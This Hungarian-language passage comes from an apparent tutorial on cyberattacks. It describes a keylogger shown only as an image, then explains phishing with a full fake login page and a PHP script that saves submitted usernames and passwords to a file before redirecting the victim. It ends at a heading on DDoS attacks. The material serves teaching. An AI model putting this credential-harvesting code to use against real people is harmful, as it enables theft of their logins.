 A fenti kód egy alapvető keylogger programot mutat be, amely a billentyűleütéseket rögzíti egy fájlba. Bár ez a példa erősen szimplifikált és jól ismert, fontos megjegyezni, hogy a valós kártékony programok gyakran ennél jóval összetettebbek és mindenféle obfuszkációt alkalmaznak a felismerés elkerülése érdekében.

#### Phishing

A phishing egy olyan típusú kiberbűncselekmény, amely során a támadók megtévesztik az áldozatot, hogy érzékeny információkat, például hitelesítő adatokat, banki adatokat vagy személyes információkat adjanak meg. A phishing támadások gyakran hamis weboldalak, e-mailek vagy SMS-üzenetek formájában jelennek meg.

A legtöbb phishing támadás célja, hogy az áldozat egy megtévesztő weboldalon adja meg hitelesítő adatait. Az alábbi HTML/JavaScript kódrészlet egy alapvető phishing oldal példáját mutatja:

```html
<!DOCTYPE html>
<html>
<head>
    <title>Fake Login Page</title>
</head>
<body>
    <h2>Please Login</h2>
    <form action="login.php" method="POST">
        Username: <input type="text" name="username" /><br />
        Password: <input type="password" name="password" /><br />
        <input type="submit" value="Login" />
    </form>
</body>
</html>
```

```php
<?php
// login.php
$file = 'log.txt';
$username = $_POST['username'];
$password = $_POST['password'];

// Log the username and password to a file
file_put_contents($file, "Username: $username, Password: $password\n", FILE_APPEND);

// Redirect to a real login page or a thank you page
header('Location: https://real-login-page.com');
?>
```

A fenti példa egy egyszerű, ám hatékony phishing támadást demonstrál. A form adatokat egy `login.php` fájlba küldi, amely a hitelesítő adatokat egy szövegfájlba menti. Bár az ilyen típusú támadások meglehetősen kezdetlegesek, a valós fenyegetések gyakran sokkal kifinomultabb módszereket alkalmaznak, például valós időben továbbítják az adatokat a támadónak vagy API-hívásokat használnak a gyorsabb adatgyűjtés érdekében.

#### DDoS támadások
